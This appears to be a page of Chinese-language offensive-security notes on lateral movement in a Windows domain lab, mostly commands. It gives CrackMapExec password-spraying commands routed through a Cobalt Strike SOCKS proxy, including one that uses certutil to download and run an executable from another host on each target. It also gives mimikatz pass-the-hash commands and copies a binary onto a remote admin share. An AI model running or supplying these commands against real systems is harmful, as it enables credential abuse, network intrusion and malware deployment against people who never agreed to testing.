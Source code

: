 

##### CrackMapExec

前提，30394，先在你的cs上开一个sock4代理，然后将这个端口号记住，在proxychains上修改绑定

~~~
linux + proxychains + CrackMapExec
~~~

proxychains的安装

~~~
sudo apt-get install proxychains
vim /etc/proxychains.conf
~~~

CrackMapExec安装

https://www.freebuf.com/sectool/184573.html

~~~
apt-get install -y libssl-dev libffi-dev python-dev build-essential
pip install crackmapexec
~~~



~~~
// 密码喷洒-域(明文)
proxychains4 cme smb 192.168.52.1-255 -u administrator -p 'A@2019gaokaowar'
// 密码喷洒-本地
proxychains4 cme smb 192.168.52.1-255 -u administrator -p 'A@2019gaokaowar' --local-auth

//密码喷洒-hash
proxychains python cme smb 192.168.52.1-255 -u administrator -h 'zxxxxxxxxxxxxx'

e45e329feb5d925b
a3f549b17b4b3dde

//密码喷洒-将密码放在p.txt中，用户名放在u.txt中,ip放在i.txt
proxychains4 cme smb 192.168.52.138 -u u.txt -p p.txt -x "certutil -urlcache -split -f http://192.168.52.143/6666.exe c:/6666.exe & 6666.exe"
~~~

利用喷洒上线

[![p9pAXNV.png](https://s1.ax1x.com/2023/04/15/p9pAXNV.png)](https://imgse.com/i/p9pAXNV)[![p9pAjhT.png](https://s1.ax1x.com/2023/04/15/p9pAjhT.png)](https://imgse.com/i/p9pAjhT)





#### PTH

在2012 R2之前是

~~~
pass the hash
lm ntlm  NTLM认证攻击
// mimikatz
mimikatz privilege:debug
mimikatz sekurlsa::pth /user:administrator /domain:192.168.52.141 /ntlm:069f3f91c44c631880d58af546516f45

mimikatz sekurlsa::pth /user:liukaifeng01 /domain:192.168.52.138 /ntlm:069f3f91c44c631880d58af546516f45



dir \\192.168.52.138\C$
copy batman-batman.exe \\192.168.52.138\c$

~~~